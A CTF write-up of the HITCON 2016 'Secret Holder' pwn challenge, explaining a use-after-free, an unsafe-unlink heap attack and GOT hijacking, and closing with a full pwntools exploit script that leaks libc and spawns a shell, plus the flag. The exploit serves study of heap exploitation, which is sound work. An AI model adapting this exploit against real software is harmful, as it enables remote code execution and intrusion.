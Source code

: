 ```yaml
---
title: HITCON CTF 2016 Quals -- Secret Holder
tags:
  - Python
  - CTF
  - Pwnable
  - use_after_free
  - heap
  - HITCON
  - heap_overflow
categories:
  - write-ups
date: 2016-10-10 08:10:00
---
```

**Category:** pwn
**Points:** 100

<!-- more -->  

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 = atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big = 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge = 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small = 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python exp_secret.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`   

